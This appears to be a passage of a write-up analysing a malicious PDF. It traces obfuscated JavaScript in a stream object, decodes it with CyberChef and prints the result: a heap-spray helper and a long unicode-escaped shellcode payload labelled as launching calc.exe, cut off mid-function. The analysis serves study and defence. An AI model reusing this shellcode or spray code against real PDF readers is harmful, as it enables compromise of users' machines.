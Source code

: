 ```
[...]
Streams (5): [5, 7, 9, 10, 11]
[...]
```

So to see the streams I opened the pdf in 'pdf stream dumper' tool. The tools shows all the stream objects in blue color. Object 5 has javascript code. So I open javascript UI to run the code. 

![](https://i.imgur.com/8Y1acXx.png)

It will emulate the pdf reader environment and give us the code.

![](https://i.imgur.com/OrkGOFS.png)

After analyzing the the code i found that the JS code is taking the content of object 7 and 9. 
```
___SS=1;
dump_9=____SSS[____SS].subject;
____$S=0;
res=dump_9.replace(/X_17844743X_170987743/g,"%");
dump_7=____SSS[____$S].subject;
res+=dump_7.replace(/89af50d/g,"%");
res=res.replace(/\n/,"");
res=res.replace(/\r/,"");
____S$=unescape(res);
app.eval(____S$);
```
So after doing the replace operation in a text editor I dumped the text in cyberchef and used [this](https://cyberchef.org/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%25'%7D,'%20',true,false,true,false)From_Hex('Auto')) recipe to get the following JS code.

```js
var c = app;

function s(yarsp, len) {
        while (yarsp.length * 2 < len) {
              yarsp += yarsp;
              this.x = false;
        }          
        var eI = 37715;
        yarsp = yarsp.substring(0, len / 2);
        return yarsp;
        var yE = 18340;
}
var m = new String("");

function cG() {
                  var chunk_size, payload, nopsled;
                  
                  chunk_size = 0x8000;
                  // calc.exe payload
                  payload = unescape("%uabba%ua906%u29f1%ud9c9%ud9c9%u2474%ub1f4%u5d64%uc583%u3104%u0f55%u5503%ue20f%ued5e%uabb9%uc1ea%u2d70%u1953%u3282%u6897%ud01d%u872d%ufd18%ua73a%u02dc%u14cc%u64ba%u66b5%uae41%uf16c%u5623%udb7c%u7bc1%u5e69%u69dd%uf0b0%ucf0c%u1950%udd95%u5ab9%u7b37%u772b%uc55f%u1531%ue18d%u70c8%uc2c5%u4c1c%u7b34%u2f3a%ue82b%u27c9%u848b%ua512%u999d%u2faa%u84c0%u2bee%u768c%u0bc8%u237e%u4cc6%u51c2%u3abc%ufc45%u1118%uffe5%uf48a%udf14%u6c2f%u8742%u0a57%u6fe9%ub5b5%uca94%ua6ab%u84ba%u77d1%u4a2c%u74ac%uabcf%ub25f%ub269%u5e06%u51d5%u90f3%u978f%uec66%u6942%u6a9b%u18a2%u12ff%u42ba%u7be5%ubb37%u9dc6%u5de0%ufe14%uf2f7%uc6fd%u7812%uda44%u7167%u110f%ubb01%uf81a%ud953%ufc21%u22db%u20f7%u46b9%u27e6%ue127%u8e42%udb91%ufe58%ubaeb%u6492%u07fe%uade3%u4998%uf89a%u9803%u5131%u1192%ufcd5%u3ac9%u352d%u71de%u81cb%u4522%u6d21%uecd2%ucb1c%u4e6d%u8df8%u6eeb%ubff8%u653d%ubaf6%u8766%ud10b%u926b%ubf19%u9f4a%u0a30%u8a92%u7727%u96a7%u6347%ud3b4%u824a%uc4ae%uf24c%uf5ff%ud99b%u0ae1%u7b99%u133d%u91ad%u2573%u96a6%u3b74%ub2a1%u3c73%ue92c%u468c%uea25%u5986%u9261%u71b5%u5164%u71b3%u561f%uabf7%u91c2%ua3e6%uab09%ub60f%ua23c%ub92f%ub74b%ua308%u3cdb%ua4dd%u9221%u2732%u8339%u892b%u34a9%ub0da%ua550%u4f47%u568c%uc8fa%uc5fe%u3983%u7a98%u2306%uf60a%uc88f%u9b8d%u6e27%u305d%u1edd%uadfa%ub232%u4265%u2d3a%uff17%u83f5%u87b2%u5b90");
```